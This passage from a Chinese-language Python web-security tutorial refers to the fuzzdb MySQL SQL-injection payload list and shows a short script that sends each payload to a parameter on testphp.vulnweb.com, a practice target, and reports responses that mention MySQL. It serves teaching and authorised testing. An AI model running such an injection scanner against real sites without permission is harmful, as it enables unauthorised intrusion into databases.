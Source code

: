 ![](img/1107a246-1469-4197-8a84-cdf0fe899375.png)

我们还可以在 MySQL 数据库中找到其他用于测试 SQL 注入的文件：[https://github.com/fuzzdb-project/fuzzdb/blob/master/attack/sql-injection/detect/MySQL.txt](https://github.com/fuzzdb-project/fuzzdb/blob/master/attack/sql-injection/detect/MySQL.txt) 。

在`Mysql.txt`文件中，我们可以看到所有可用的攻击向量，以发现 SQL 注入漏洞：

![](img/f3866661-f9d6-4654-b485-30ff8e20c8af.png)

我们可以使用前面的文件检测特定站点中的 SQL 注入漏洞：testphp.vulnweb.com。

您可以在 pywebfuzz_ 文件夹内的`demofuzz_sql.py`文件中找到以下代码：

```py
from pywebfuzz import fuzzdb
import requests

mysql_attacks= fuzzdb.attack_payloads.sql_injection.detect.MySQL

domain = "http://testphp.vulnweb.com/listproducts.php?cat="

for attack in mysql_attacks:
    print "Testing... "+ domain + attack
    response = requests.get(domain + attack)
    if "mysql" in response.text.lower(): 
        print("Injectable MySQL detected")
```